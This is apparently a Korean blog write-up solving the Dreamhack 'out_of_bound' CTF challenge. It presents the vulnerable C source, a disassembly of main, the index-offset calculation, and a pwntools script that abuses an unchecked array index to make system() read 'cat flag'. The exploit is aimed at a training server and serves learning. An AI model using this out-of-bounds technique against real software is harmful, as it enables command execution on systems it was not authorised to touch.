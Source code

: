 ```yaml
---
published: true
image: /img
layout: post
title: Dreamhack out_of_bound 문제풀이
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-03-07 21:00
---
```


<h4 style="color:red">제가 공부하면서 적은 내용으로 틀린 내용이 있을수 있으니 지적해주시면 정정하겠습니다. 감사합니다.</h4><hr><br>

out of bound(OOB)는 버퍼의 길이를 벗어나는 인덱스를 참조하려 할때 발생할 수 있는 취약점이다.
<br>
이번 문제의 소스코드를 먼저 살펴보자.

```c
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

main함수를 따라가면서 살펴보면 먼저 관리자 이름을 name이라는 변수에 입력 받는다. 이후 What do you want?라는 문구와 함께 어떤 작업을 실행할 것인지 int형을 scanf로 입력 받는다. 이후 입력받은 값을 idx라는 변수에 넣고 system함수를 통해 command[idx]를 실행하고 프로그램은 종료한다.

system함수는 C언어 내부에서 쉘을 사용할 수 있는 기능을 제공하며 배열 10이 할당되어 있으나 scanf에서는 입력받는 크기가 제한이 없는것을 볼수 있다. 이부분을 공략하면 될 것 같다.

일단 같이 제공된 바이너리를 peda를 통해 disas main 해보자.
```shell
   0x080486cb <+0>: 	lea    ecx,[esp+0x4]
   0x080486cf <+4>: 	and    esp,0xfffffff0
   0x080486d2 <+7> :	push   DWORD PTR [ecx-0x4]
   0x080486d5 <+10>:	push   ebp
   0x080486d6 <+11>:	mov    ebp,esp
   0x080486d8 <+13>:	push   ecx
   0x080486d9 <+14>:	sub    esp,0x14
   0x080486dc <+17>:	mov    eax,gs:0x14
   0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
   0x080486e5 <+26>:	xor    eax,eax
   0x080486e7 <+28>:	call   0x804867b <initialize>
   0x080486ec <+33>:	sub    esp,0xc
   0x080486ef <+36>:	push   0x8048811
   0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
   0x080486f9 <+46>:	add    esp,0x10
   0x080486fc <+49>:	sub    esp,0x4
   0x080486ff <+52>:	push   0x10
   0x08048701 <+54>:	push   0x804a0ac
   0x08048706 <+59>:	push   0x0
   0x08048708 <+61>:	call   0x80484a0 <read@plt>
   0x0804870d <+66>:	add    esp,0x10
   0x08048710 <+69>:	sub    esp,0xc
   0x08048713 <+72>:	push   0x804881e
   0x08048718 <+77>:	call   0x80484b0 <printf@plt>
   0x0804871d <+82>:	add    esp,0x10
   0x08048720 <+85>:	sub    esp,0x8
   0x08048723 <+88>:	lea    eax,[ebp-0x10]
   0x08048726 <+91>:	push   eax
   0x08048727 <+92>:	push   0x8048832
   0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
   0x08048731 <+102>:	add    esp,0x10
   0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
   0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
   0x0804873e <+115>:	sub    esp,0xc
   0x08048741 <+118>:	push   eax
   0x08048742 <+119>:	call   0x8048500 <system@plt>
   0x08048747 <+124>:	add    esp,0x10
   0x0804874a <+127>:	mov    eax,0x0
   0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
   0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
   0x08048759 <+142>:	je     0x8048760 <main+149>
   0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
   0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048763 <+152>:	leave  
   0x08048764 <+153>:	lea    esp,[ecx-0x4]
   0x08048767 <+156>:	ret 
```
우선 집중해서 봐야할 부분은 name의 주소값과 command의 주소값인것 같다.

name    : 0x804a0ac<br>
command : 0x804a060

각 주소값의 거리를 계산해 보면 name(0x804a0ac) - command(0x804a060) = 0x4C이다.
4C를 10진수로 변환하면 76이고 포인터 배열이 하나당 4바이트씩 할당하니 76/4를 하면 19가 나온다.

name의 위치는 command주소로 부터 [19]만큼 떨어져 있다고 볼수 있다.
그럼 name에는 "/bin/sh"를 주고 idx를 19를 입력하면 될것 같다.

여기서 조심해야 할 것이 system함수이다.

system 함수는 외부 라이브러리이기 때문에 변수주소_4바이트+exec_code(인수)로 구성되어 있다고 한다. 예를 들어 system("cat flag"); 이라는 명령어를 실행하면 메모리에는 변수주소_4바이트 + cat flag가 들어간다. 따라서 결과 리턴을 위한 name+4의 값과  cat flag를 인수로 줘야 한다.

이제 파이썬을 이용해 익스플로잇 코드를 짜보자

```python
from pwn import *

conn = remote("host2.dreamhack.games", 16966)

print(conn.recv())

payload = p32(0x804a0ac+4) #name주소 + 4byte
payload += b"cat flag"
print(payload)
conn.sendline(payload)
print(conn.recv())

conn.sendline(b"19")
print(conn.recvall().decode('utf-8'))
```

위 코드를 실행하면 플레그 값을 얻을 수 있다.
이번 문제를 풀면서 system함수의 어셈블리 호출규약을 알아볼 필요성을 느꼈다.
좀더 공부를 하고 포스팅 내용을 보충해야 겠다.

